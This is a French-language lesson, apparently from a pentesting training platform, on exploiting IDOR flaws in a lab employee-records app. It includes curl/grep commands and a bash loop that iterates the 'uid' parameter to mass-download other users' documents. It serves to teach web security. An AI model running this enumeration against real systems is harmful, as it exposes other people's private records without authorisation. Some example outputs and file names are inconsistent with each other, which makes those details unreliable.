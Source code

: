 Énumération IDOR de masse
=====================

* * * * *

L'exploitation des vulnérabilités IDOR est facile dans certains cas, mais peut être très difficile dans d'autres. Une fois que nous avons identifié un IDOR potentiel, nous pouvons commencer à le tester avec des techniques de base pour voir s'il exposerait d'autres données. En ce qui concerne les attaques IDOR avancées, nous devons mieux comprendre comment fonctionne l'application Web, comment elle calcule ses références d'objets et comment fonctionne son système de contrôle d'accès pour pouvoir effectuer des attaques avancées qui peuvent ne pas être exploitables avec des techniques de base.

Commençons par discuter des diverses techniques d'exploitation des vulnérabilités IDOR, de l'énumération de base à la collecte de masse de données, en passant par l'élévation des privilèges des utilisateurs.

* * * * *

Paramètres non sécurisés
-------------------

Commençons par un exemple de base qui présente une vulnérabilité IDOR typique. L'exercice ci-dessous est une application Web `Employee Manager` qui héberge les dossiers des employés :

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_employee_manager.jpg)

Notre application Web suppose que nous sommes connectés en tant qu'employé avec l'identifiant `uid=1` pour simplifier les choses. Cela nous obligerait à nous connecter avec des informations d'identification dans une application Web réelle, mais le reste de l'attaque serait le même. Une fois que nous avons cliqué sur `Documents`, nous sommes redirigés vers

`/documents.php` :

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg)

Lorsque nous arrivons à la page `Documents` , nous voyons plusieurs documents appartenant à notre utilisateur. Il peut s'agir de fichiers téléchargés par notre utilisateur ou de fichiers définis pour nous par un autre service (par exemple, le service des ressources humaines). En vérifiant les liens de fichiers, nous voyons qu'ils ont des noms individuels :

Code : html

```
/documents/Facture_1_09_2021.pdf
/documents/Rapport_1_10_2021.pdf

```

Nous constatons que les fichiers ont un modèle de dénomination prévisible, car les noms de fichiers semblent utiliser l'utilisateur `uid` et le mois/l'année dans le nom de fichier, ce qui peut nous permettre de fuzzer des fichiers pour d'autres utilisateurs. Il s'agit du type de vulnérabilité IDOR le plus élémentaire. Il s'appelle "IDOR de fichier statique". Cependant, pour fuzzer avec succès d'autres fichiers, nous supposons qu'ils commencent tous par `Invoice` ou `Report`, ce qui peut révéler certains fichiers, mais pas tous. Cherchons donc une vulnérabilité IDOR plus solide.

Nous voyons que la page définit notre `uid` avec un paramètre `GET` dans l'URL comme (`documents.php?uid=1`). Si l'application Web utilise ce paramètre GET `uid` comme référence directe aux enregistrements des employés qu'elle doit afficher, nous pourrons peut-être afficher les documents d'autres employés en modifiant simplement cette valeur. Si le back-end de l'application Web dispose d'un système de contrôle d'accès approprié, nous obtiendrons une forme d'"Accès refusé". Cependant, étant donné que l'application Web passe pour notre `uid` en texte clair comme référence directe, cela peut indiquer une mauvaise conception de l'application Web, entraînant un accès arbitraire aux dossiers des employés.

Lorsque nous essayons de changer le `uid` en `?uid=2`, nous ne remarquons aucune différence dans la sortie de la page, car nous obtenons toujours la même liste de documents et pouvons supposer qu'elle renvoie toujours nos propres documents :

![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_documents.jpg)

Cependant, `nous devons être attentifs aux détails de la page lors de tout pentest Web` et toujours garder un œil sur le code source et la taille de la page. Si nous regardons les fichiers liés, ou si nous cliquons dessus pour les visualiser, nous remarquerons qu'il s'agit bien de fichiers différents, qui semblent être les documents appartenant à l'employé avec `uid=2` :

Code : html

```
/documents/Invoice_2_08_2020.pdf
/documents/Report_2_12_2020.pdf

```

Il s'agit d'une erreur courante dans les applications Web souffrant de vulnérabilités IDOR, car elles placent le paramètre qui contrôle les documents utilisateur à afficher sous notre contrôle tout en n'ayant aucun système de contrôle d'accès sur le back-end. Un autre exemple consiste à utiliser un paramètre de filtre pour afficher uniquement les documents d'un utilisateur spécifique (par exemple `uid_filter=1`), qui peut également être manipulé pour afficher les documents d'autres utilisateurs ou même complètement supprimé pour afficher tous les documents à la fois.

* * * * *

Dénombrement de masse
----------------

Nous pouvons essayer d'accéder manuellement aux documents d'autres employés avec `uid=3`, `uid=4`, etc. Cependant, l'accès manuel aux fichiers n'est pas efficace dans un environnement de travail réel avec des centaines ou des milliers d'employés. Ainsi, nous pouvons soit utiliser un outil comme `Burp Intruder` ou `ZAP Fuzzer` pour récupérer tous les fichiers, soit écrire un petit script bash pour télécharger tous les fichiers, ce que nous ferons.

Nous pouvons cliquer sur [`CTRL+SHIFT+C`] dans Firefox pour activer `l'inspecteur d'éléments`, puis cliquer sur l'un des liens pour afficher leur code source HTML, et nous obtiendrons ce qui suit :

Code : html

```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>

```

Nous pouvons choisir n'importe quel mot unique pour pouvoir `grep` le lien du fichier. Dans notre cas, nous voyons que chaque lien commence par `<li class='pure-tree_link'> `, nous pouvons donc `curl` la page et `grep` pour cette ligne, comme suit :

```
dsgsec@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>

```

Comme nous pouvons le voir, nous avons réussi à capturer les liens des documents avec succès. Nous pouvons maintenant utiliser des commandes bash spécifiques pour couper les parties supplémentaires et obtenir uniquement les liens de document dans la sortie. Cependant, il est préférable d'utiliser un modèle `Regex` qui fait correspondre les chaînes entre `/document` et `.pdf`, que nous pouvons utiliser avec `grep` pour obtenir uniquement les liens vers les documents, comme suit :

```
dsgsec@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Facture_3_06_2020.pdf
/documents/Rapport_3_01_2020.pdf

```

Maintenant, nous pouvons utiliser une simple boucle `for` pour parcourir le paramètre `uid` et renvoyer le document de tous les employés, puis utiliser `wget` pour télécharger chaque lien de document :

Code : bash

```
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done

```

Lorsque nous exécutons le script, il télécharge tous les documents de tous les employés avec `uid` entre 1 et 10, exploitant ainsi avec succès la vulnérabilité IDOR pour énumérer en masse les documents de tous les employés. Ce script est un exemple de la façon dont nous pouvons atteindre le même objectif. Essayez d'utiliser un outil comme Burp Intruder ou ZAP Fuzzer, ou écrivez un autre script Bash ou PowerShell pour télécharger tous les documents.
